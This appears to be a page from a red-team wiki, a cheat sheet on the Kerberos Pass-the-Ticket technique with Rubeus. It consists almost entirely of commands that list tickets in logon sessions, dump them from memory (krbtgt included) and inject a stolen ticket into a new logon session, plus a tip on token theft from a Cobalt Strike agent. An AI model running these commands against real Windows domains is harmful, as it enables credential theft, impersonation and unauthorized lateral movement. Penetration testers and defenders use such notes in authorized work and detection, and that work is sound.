 # Pass-the-Ticket




## Rubeus

show Kerberos tickets in all logon sessions if elevated (otherwise it will only show tickets in current logon session):

```
PS > .\Rubeus.exe triage
```

Extract the tickets from memory:

```
PS > .\Rubeus.exe dump [/service:krbtgt] [/luid:0x1337] /nowrap
```

Create a sacrificial process ([Logon type 9](https://ss64.com/nt/syntax-logon-types.html)) and import the TGT into its logon session:

```
PS > .\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /show
PS > .\Rubeus.exe ptt /luid:0x1337 /ticket:<BASE64_TICKET>
```

{% hint style="info" %}
If operating Rubeus from a C2 agent, you can [steal_token](/redteam/cobalt-strike.md#pass-the-ticket) instead of using `/show` option.
{% endhint %}

{% hint style="success" %}
You can also extract and reuse TGS tickets using this technique.
{% endhint %}
